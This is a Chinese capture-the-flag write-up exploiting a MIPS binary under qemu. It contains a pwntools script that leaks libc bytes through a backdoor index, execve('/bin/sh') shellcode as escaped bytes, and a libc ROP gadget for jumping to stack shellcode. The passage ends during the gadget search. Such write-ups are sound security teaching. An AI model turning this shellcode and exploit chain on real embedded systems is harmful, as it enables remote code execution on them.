 所以整体思路是，先通过 ret2libc 调用一个 sleep 函数，刷新指令区，然后再通过 ROP 跳转到栈上的 shellcode 执行。

由于程序最后关闭了标准输出流，所以这里需要用 shellcode 拿到 shell ，然后通过在 shell 中执行命令时，将标准输出转换到标准错误输出上，来获取 flag。


# 利用过程
## 泄露libc
qemu 的 user 模式下，所以即便程序重启 libc 地址也不变，程序给了一个后门可以通过idx泄露地址的后三个字节，有了后三字节，根据偏移所以可以得到libc的地址。
```python
from pwn import *

libc_base = 0x7f000000

for x in xrange(3):
	# io = process(['qemu-mipsel', '-L', './', '-g', '1234','./eserver'])
	# io = process(['qemu-mipsel', '-L', './', './eserver'])
	io = remote('127.0.0.1', 49153)

	io.sendlineafter('Input package: ', 'Administrator')
	io.sendlineafter('Input package: ', str(x))
	io.readuntil('Response package: ')
	Abyte = u8(io.readn(1))
	libc_base += (Abyte << (8*x))
	io.close()

libc_base -= 0xDDEA4
print 'libc_base: '+hex(libc_base)

```
## shellcode准备
mips下的shellcode，拿一个准备好的shellcode，验证可以自行调用。
```asm
	"\xff\xff\x06\x28"  // slti $a2, $zero, -1
	"\x62\x69\x0f\x3c"  // lui $t7, 0x6962         ib
	"\x2f\x2f\xef\x35"  // ori $t7, $t7, 0x2f2f    ib//
	"\xf4\xff\xaf\xaf"  // sw $t7, -0xc($sp)      
	"\x73\x68\x0e\x3c"  // lui $t6, 0x6873         hs
	"\x6e\x2f\xce\x35"  // ori $t6, $t6, 0x2f6e    hs/n
	"\xf8\xff\xae\xaf"  // sw $t6, -8($sp)
	"\xfc\xff\xa0\xaf"  // sw $zero, -4($sp)
	"\xf4\xff\xa4\x27"  // addiu $a0, $sp, -0xc   //bin/sh
	"\xff\xff\x05\x28"  // slti $a1, $zero, -1
	"\xab\x0f\x02\x24"  // addiu $v0, $zero, 0xfab
	"\x0c\x01\x01\x01"  // syscall 0x40404
```
## ROP寻找
寻找的目标就是首先找到一个能控制s1-sn并且有`jr $ra`的rop链，用mips-rop插件在libc中寻找合适的rop链：
`mipsrop.find('jr $ra')`;
发现以下rop，可以修改s0-s3寄存器：
```asm
.text:000A0C7C loc_A0C7C:                               # CODE XREF: sub_A0B40+218↓j
.text:000A0C7C                 lw      $ra, 0x2C+var_s10($sp)
.text:000A0C80                 lw      $s3, 0x2C+var_sC($sp)
.text:000A0C84                 lw      $s2, 0x2C+var_s8($sp)
.text:000A0C88                 lw      $s1, 0x2C+var_s4($sp)
.text:000A0C8C                 lw      $s0, 0x2C+var_s0($sp)
.text:000A0C90                 jr      $ra
.text:000A0C94                 addiu   $sp, 0x40
```
其实libc里面还有很多这样的gadgets，可以自行取用。此时我们可以控制ra返回地址和s寄存器。这里我们利用s3，在给s3赋值另一段gadget使其跳转到shellcode，我们再接着找能够跳转到s3寄存器且最好能将栈上的shellcode指针赋值给寄存器的gadget。